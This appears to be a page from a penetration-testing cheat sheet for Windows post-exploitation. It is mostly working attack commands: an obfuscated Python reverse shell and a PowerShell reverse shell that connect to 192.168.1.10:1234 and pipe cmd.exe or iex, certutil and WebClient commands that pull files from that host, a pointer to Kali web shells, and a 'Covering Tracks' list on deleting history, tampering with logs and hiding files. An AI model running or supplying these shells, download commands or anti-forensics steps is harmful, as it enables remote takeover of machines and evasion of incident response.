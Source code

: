 ```
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('192.168.1.10', 1234)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
**powershell**
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.10',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
**download files into windows**
```
certutil.exe -urlcache -split -f http://192.168.1.10/file.txt file.txt

powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.10/file.txt', 'C:\Users\PC\Desktop\file.txt')
```
**web shells in kali**
```
/usr/share/webshells
```




## Covering Tracks

**Hide connections**
*	Tamper or spoof backdoor source
*	Establish VPN connection

**Deleting Evidence**
*	delete cache
*	delete commands history
*	output to standard output

**Log Tampering**
*	Windows:  event viewer
*	Linux:	 /var/log/

**Hiding files**
*	Steganography
*	Forensics
*	Trojans
